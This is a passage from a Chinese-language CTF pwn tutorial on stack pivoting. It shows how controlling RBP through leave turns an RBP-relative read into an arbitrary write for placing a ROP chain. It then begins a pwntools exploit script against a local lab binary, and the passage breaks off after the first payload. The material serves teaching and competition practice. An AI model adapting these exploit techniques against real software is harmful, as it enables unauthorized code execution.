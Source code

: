 ![image-20250205125031344](images/ROP_Tricks/image-20250205125031344.png)

这里只有一次往`rbp-0x1000`的位置写入0x1010长度的内容的机会。很显然，这里无法提供足够的空间构造ROP链，也没机会提前写入ROP链。

那么真的没办法了吗？

我们先来回想一下栈迁移的流程，通过函数结尾`leave`控制`RBP`寄存器，然后通过再次`leave`控制`RSP`寄存器。同时我们再看上面的汇编中的`read`：

![image-20250205125811218](/home/hakuya/Projects/CTF-QuickStart/docs/hc-pwn/images/ROP_Tricks/image-20250205125811218.png)

很显然，这里`read`指向缓冲区的指针是使用`RBP`计算得出的。所以控制了`RBP`之后就可以实现任意地址写了，通过任意地址写写入ROP链之后，就可以再次通过栈迁移实现执行ROP链。

对应的exp如下（只到泄露libc，getshell原理一样）：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

context.log_level = "debug"
context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")
libc = ELF("./libc-2.31.so")

pop_rdi   = 0x0000000000401203
leave_ret = 0x0000000000401199
ret       = 0x000000000040101a

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

main_addr = elf.sym["main"]

read_addr = 0x00401176

payload = flat({
    0x1000: [
        p64(0x00405500),
        p64(read_addr)
    ]
})

```